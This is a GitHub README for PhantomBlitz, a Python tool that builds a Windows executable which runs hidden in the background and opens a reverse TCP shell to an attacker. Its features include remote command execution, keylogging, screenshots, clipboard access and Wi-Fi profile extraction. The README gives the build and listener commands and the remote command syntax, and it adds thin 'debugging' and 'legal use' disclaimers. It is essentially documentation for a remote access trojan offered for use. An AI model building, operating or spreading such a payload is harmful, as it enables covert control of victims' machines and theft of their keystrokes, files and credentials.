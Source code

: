  # PhantomBlitz
![image](https://user-images.githubusercontent.com/111997815/235445673-e72f087d-ce6f-4737-a1eb-f36e1fcf4aad.png)

**PhantomBlitz is a Python-based framework that creates an executable file with various parameters. It allows users to perform a reverse TCP connection and execute cmd commands.**
## DISCLAIMER:
This tool is intended for legal and ethical use only. The creator of this tool is not responsible for any illegal or unethical use of this tool.
> **IMPORTANT**:```PLEASE USE WINDOWS FOR PAYLOAD FILE GENERATION ⚠ DETECTABLE BY AV AND WINDOWS```
![VIRUS-TOTAL-SCREENSHOT](https://github.com/devsdenepal/PhantomBlitz/blob/main/341264188_211432421592581_4782327762530171716_n.png?raw=true)
## Features

- [x] Reverse TCP connection
- [x] Execute cmd commands
- [x] Collect OS info
- [x] Set clipboard text
- [x] Get clipboard text
- [x] Take screenshot
- [x] Start file server
- [x] Analyze LAN traffic
- [x] Type text
- [x] Download URL
- [x] Open link
- [x] Generate WLAN profile
- [x] Keylogger
## Requirements
> Same platform as the client
```python3 -m pip install -r requirements.txt```
## Usage

PhantomBlazer can be executed with the following parameters:
``` 
    --mode/-m: Mode: accepts > build or listen
    --lhost/-lh: The local host IP address
    --lport/-lp: The local port number
    --output/-o: The output file name
```
> Example: ``` python3 phantomblazer.py -m build --lh <ip.address> --lp <port> --output<application.name>.exe```
> Before payload execution on client: ``` python3 phantomblazer.py -m listen --lh <ip.address> -lp <port> ```

### Inbuilt ommands can be executed using the following syntax:
```
    collect-os-info
    set clipboard <text>
    get clipboard
    take screenshot
    start file server
    analyze lan traffic
    type <text>
    download <url>
    open link <link>
    generate wlan profile *
    generate wlan profile <name>
    start keylogging
```
> To view captured use ```start file server``` for remote file service , the server will be on the client's address


The tool creates a .exe file which runs as a background and creates a reverse TCP connection, allowing for remote command execution. This tool is intended for debugging purposes and should not be used to gain unauthorized access to systems.

Please use this tool at your own risk and with the appropriate permissions from the system owners. Any actions taken with this tool are the sole responsibility of the user.

By using this tool, you agree to the <a href = "https://github.com/devsdenepal/PhantomBlitz/blob/main/terms-and-conditions.md">```terms and conditions```</a> outlined above and acknowledge that any misuse of this tool is strictly prohibited.
